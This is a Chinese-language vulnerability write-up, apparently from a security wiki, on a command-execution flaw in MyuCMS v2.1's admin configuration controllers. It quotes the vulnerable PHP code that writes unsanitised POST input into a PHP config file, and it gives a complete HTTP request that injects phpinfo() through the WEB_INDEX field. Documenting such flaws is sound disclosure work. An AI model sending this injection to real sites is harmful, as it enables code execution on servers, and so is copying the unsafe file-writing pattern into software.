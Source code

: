 MyuCMS v2.1 命令执行漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

CNVD上没有说明存在的页面。我找到的是一处能控制 **extre/web.php**
内容的漏洞。

漏洞成因是使用 **file\_put\_contents** 函数更新 **extre**
下配置文件的内容时，未对参数内容做验证，而直接通过循环遍历，拼接到了php后缀的配置文件中。

相同原理漏洞影响3个文件共5处。分别为
**application/admin/controller/Config.php**，
**application/admin/controller/Muban.php**
，**application/admin/controller/Point.php**

此处以 **application/admin/controller/Config.php** 下的 **add()**
方法为例分析

    public function add()
        {
           $path = 'application/extra/web.php';
           $file = include $path;      // $file 的内容为 web.php 中返回的配置数组的值
           $config = array( // 读取 post 中提交的配置内容
             'WEB_RXT' => input('WEB_RXT'),
             'WEB_GL' => input('WEB_GL'),
             'WEB_REG' => input('WEB_REG'),
             'WEB_TAG' => input('WEB_TAG'),
             'WEB_OPE' => input('WEB_OPE'),
             'WEB_BUG' => input('WEB_BUG'),
             'WEB_BBS' => input('WEB_BBS'),
             'WEB_SHOP' => input('WEB_SHOP'),
             'WEB_INDEX' => input('WEB_INDEX'),
             'WEB_KEJIAN' => input('WEB_KEJIAN'),
             'WEB_KEJIANS' => input('WEB_KEJIANS'),
             'Cascade' => input('Cascade'),
             //七牛
             'bucket' => input('bucket'),
             'accessKey' => input('accessKey'),
             'secrectKey' => input('secrectKey'),
             'domain' => input('domain'),
             'qiniuopen' => input('qiniuopen'),
           );
            $res = array_merge($file, $config); // 合并两个数组
            $str = '<?php return [';
            foreach ($res as $key => $value) { // 循环数组，生成新的配置内容
                $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
            }
            $str .= ']; ';
            if (file_put_contents($path, $str)) { // 将配置内容写入 web.php 文件
                return json(array('code' => 200, 'msg' => '修改成功'));
            } else {
                return json(array('code' => 0, 'msg' => '修改失败'));
            }
        }

### Payload

Payload数据包如下：

    POST /admin/config/add.html HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 327
    Origin: http://www.myu.io
    Connection: close
    Referer: http://www.myu.io/admin/config/index.html
    Cookie: PHPSESSID=l6ijpio06mqmhcdq654g63eq90; UM_distinctid=170343d2b4a291-0a4e487f247e62-4c302978-1fa400-170343d2b4b28f; CNZZDATA1277972876=1874892142-1581419669-%7C1581432904; XDEBUG_SESSION=XDEBUG_ECLIPSE

    WEB_KEJIAN=0&WEB_KEJIANS=0&WEB_INDEX=bbs',phpinfo(),'&WEB_RXT=rar,png,zip,jpg,gif,ico,7z&qiniuopen=0&secrectKey=0&accessKey=0&domain=0&bucket=0&Cascade=1&WEB_BUG=true&WEB_REG=1&WEB_OPE=1&WEB_GL=0&WEB_BBS=1&WEB_SHOP=1&WEB_TAG=%e6%8f%92%e4%bb%b6%2c%e5%bb%ba%e8%ae%ae%2c%e6%a8%a1%e6%9d%bf%2c%e7%ad%be%e5%88%b0%2c%e5%8f%8d%e9%a6%88

写入的内容和效果如下：

![11.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1命令执行漏洞/media/rId25.jpg)

![111.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1命令执行漏洞/media/rId26.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-4
